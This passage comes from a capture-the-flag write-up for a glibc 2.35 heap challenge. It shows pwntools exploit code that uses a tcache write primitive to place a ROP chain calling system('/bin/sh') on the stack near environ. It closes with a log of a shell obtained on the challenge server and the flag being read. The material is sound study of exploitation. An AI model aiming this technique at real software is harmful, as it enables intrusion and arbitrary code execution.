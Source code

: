 We are getting alignment issues as we are trying to "allocate" a tcache chunk which is not aligned the way heap chunks usually are. it's a 16 byte alignment so we need to subtract 8 to get it right. This will overwrite one 64bit word before the RIP, which is the stored stack base pointer, RBP, of the previous stack frame. That's usually fine, so let's try:

Let's even try with a ROP chain while we're at it.

```python
rop = ROP(libc)
rop.raw(rop.ret.address) # har du aligna stacken ?
rop.system(next(libc.search(b'/bin/sh\0')))
payload = p64(0) + bytes(rop.chain())

# Trying my best to forget about C and be more pythonic.
for IDX,WAT in enumerate([ payload[i:i+16] for i in range(0,len(payload),16) ]):
    WWW(environ - 0x120-8 + 16*IDX, WAT)
```
This should have worked, but when writing 16 bytes at a time I keep getting problems with extra bytes because of the sendline-function in the Write method. After some trial and error and frustration with extra bytes it ended up like this to finally work.

```python
def Write(Index, Value):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(Index).encode())
    if (len(Value) == 0x10):
        io.sendafter(b'value: ', Value[:0x0f])
    else:
        io.sendlineafter(b'value: ', Value)
```

Then finally send an illegal command to return from main.

```python
io.sendlineafter(b'> ', b'7'
```

```
[+] Opening connection to io.ept.gg on port 30001: Done
[*] Libc @ 0x7fb546e4d000
[*] Value_0: 0x55c96161b
[*] Value_1: 0x55cc3df7a4bb
[*] environ @ 0x7ffcaff1da08
[*] Loaded 218 cached gadgets for './libc.2.35.so'
[*] Switching to interactive mode
out of range.
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    82 Oct 22 15:59 .
drwxr-xr-x 1 root root    17 Oct 22 15:59 ..
-rwxr-xr-x 1 root root   220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 root root  3771 Jan  6  2022 .bashrc
-rwxr-xr-x 1 root root   807 Jan  6  2022 .profile
-rwxrwxr-x 1 root root 16960 Oct 22 15:58 heap
-rwxrwxr-x 1 root root 18744 Sep 20 13:25 ynetd
$ cat /opt/flag
EPT{n0_h00ks_f0r_y0u}$  
```
